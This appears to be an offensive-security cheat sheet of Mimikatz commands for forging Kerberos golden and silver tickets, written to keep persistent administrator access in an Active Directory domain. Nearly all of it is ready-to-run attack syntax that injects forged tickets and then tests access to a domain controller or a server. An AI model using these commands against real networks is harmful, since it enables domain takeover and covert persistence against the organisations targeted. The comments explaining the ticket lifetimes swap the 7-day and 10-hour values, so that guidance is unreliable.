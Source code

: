 # GOLDEN TICKET PERSISTENCE

#### 1) Get-ADDomain 

#### 2) mimikatz

#### 3) kerberos::golden /admin:FAKE_ACCOUNT /domain:DOMAIN /id:500 /sid:DOMAIN_SID /krbtgt:KRBTGT_NTLM_HASH /endin:600 /renewmax:10080 /ptt

### /endin:600 = 7 days (Default 10 years)

### /renewmax:10080 = 10 hours (Default 10 years)

#### 4) Run dir against domain controller

# SILVER TICKET PERSISTENCE

#### 1) kerberos::golden /admin:FAKE_ACCOUNT /domain:DOMAIN /id:500 /sid:DOMAIN_SID /target:HOSTNAME_OF_TARGET_SERVER /rc4:MACHINE_ACCOUNT_NTLM_HASH /service:cifs /ptt

#### 2) dir against server
